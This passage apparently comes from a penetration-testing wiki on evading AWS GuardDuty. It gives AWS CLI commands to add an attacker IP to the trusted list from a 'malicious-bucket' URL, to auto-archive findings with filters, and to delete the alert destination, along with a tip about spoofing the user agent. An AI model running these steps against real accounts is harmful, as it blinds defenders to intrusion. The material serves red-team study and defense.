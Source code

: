### `guardduty:ListDetectors`, `guardduty:ListIPSet`, `iam:PutRolePolicy`, (`guardduty:CreateIPSet`|`guardduty:UpdateIPSet`)

An attacker could create or update GuardDuty's [Trusted IP list](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty\_upload-lists.html), including **their own IP on the list**. Any IPs in a trusted IP list will **not have any Cloudtrail or VPC flow log alerts raised** against them.

{% hint style="info" %}
DNS findings are exempt from the Trusted IP list.
{% endhint %}

```
aws guardduty update-ip-set \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --ip-set-id 24adjigdk34290840348exampleiplist \
    --location https://malicious-bucket.s3-us-east-1.amazonaws.com/customiplist.csv \
    --activate
```

{% hint style="info" %}
Depending on the level of stealth required, the **file can be uploaded to an s3 bucket in the target account, or an account controlled by the attacker.**
{% endhint %}

### `guardduty:CreateFilter`

Newly create GuardDuty findings can be automatically archived via [Suppression Rules](https://docs.aws.amazon.com/guardduty/latest/ug/findings\_suppression-rule.html). An adversary could **use** [**filters**](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty\_filter-findings.html) **to automatically archive findings** they are likely to generate.

Filters can be created using the [CreateFilter API](https://docs.aws.amazon.com/guardduty/latest/APIReference/API\_CreateFilter.html).

```
aws  guardduty create-filter --action ARCHIVE --detector-id 12abc34d567e8fa901bc2d34e56789f0 --name yourfiltername --finding-criteria file://criteria.json
```

### `guardduty:DeletePublishingDestination`

An adversary could disable alerting simply by [deleting the destination](https://docs.aws.amazon.com/cli/latest/reference/guardduty/delete-publishing-destination.html) of alerts.

```
aws guardduty delete-publishing-destination --detector-id abc123 --destination-id def456
```

### Pentest Findings

When making AWS API requests on common penetration testing OS's GuardDuty will detect this and trigger a [PenTest Finding](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty\_finding-types-iam.html#pentest-iam-kalilinux).\
This is caused by the **user agent name** that is passed in the API request. By **modifying that** we can prevent GuardDuty from detecting that we are operating from a "pentest" Linux distribution.
